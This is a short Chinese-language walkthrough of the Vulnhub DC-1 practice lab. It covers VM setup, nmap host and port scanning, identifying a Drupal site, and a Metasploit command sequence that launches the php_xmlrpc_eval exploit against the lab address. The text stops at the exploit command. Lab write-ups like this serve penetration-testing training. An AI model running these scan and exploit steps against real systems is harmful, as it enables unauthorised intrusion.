



# Vulnhub

- [Vulnhub-DC-1](#Vulnhub-DC-1)


- [参考文章](#参考文章)
    - [peiqi](http://www.peiqi.tech/posts/3371/)
    - [csdn](https://blog.csdn.net/weixin_45554136/article/details/110128358?ops_request_misc=%257B%2522request%255Fid%2522%253A%2522164013920016780255227560%2522%252C%2522scm%2522%253A%252220140713.130102334..%2522%257D&request_id=164013920016780255227560&biz_id=0&utm_medium=distribute.pc_search_result.none-task-blog-2~blog~top_click~default-1-110128358.nonecase&utm_term=vulnhub&spm=1018.2226.3001.4450)

## Vulnhub-DC-1

1. DC-1靶场搭建

- 官网靶场下载地址：
    - https://www.vulnhub.com/entry/dc-1-1,292/

- Vmware Nat配置


2. 信息收集

```bash
namp -sP 192.168.106.0/24
# -sP 默认发ICMP echo请求和TCP的ACK请求（80端口）
```



发现`192.168.106.135`,进行端口扫描：

```bash
nmap -sC -sV -p1-65535 192.168.106.135
# -sV：探测开放端口的服务和版本信息，-p：端口范围或指定端口
```



访问80端口，可以看出是drupal的站点



```bash
msfconsole
search drupal
use exploit/unix/webapp/php_xmlrpc_eval
show options
set rhosts 192.168.106.135
exploit
```
